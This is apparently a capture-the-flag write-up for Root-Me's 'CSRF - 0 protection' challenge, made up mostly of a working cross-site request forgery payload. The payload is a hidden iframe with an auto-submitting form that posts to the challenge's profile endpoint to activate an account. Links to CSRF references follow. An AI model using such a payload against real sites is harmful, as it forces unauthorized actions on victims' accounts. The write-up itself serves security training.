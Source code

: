 # CSRF: zero protection

[root-me challenge: CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection): Activate your account to access intranet.

----

```text
<iframe style="display:none" name="csrfframe"></iframe>
<form name="test" target="csrfframe" enctype="multipart/form-data" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST">
  <input type="hidden" name="username" value="barzh" />
  <input type="hidden" name="status" value="on" />
</form>
<script>document.test.submit()</script>
```

## Resources

* [https://portswigger.net/web-security/csrf](https://portswigger.net/support/using-burp-to-test-for-cross-site-request-forgery)
* [PayloadsAllTheThings/CSRF Injection/](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
* [HackTricks: CSRF (Cross Site Request Forgery)](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)

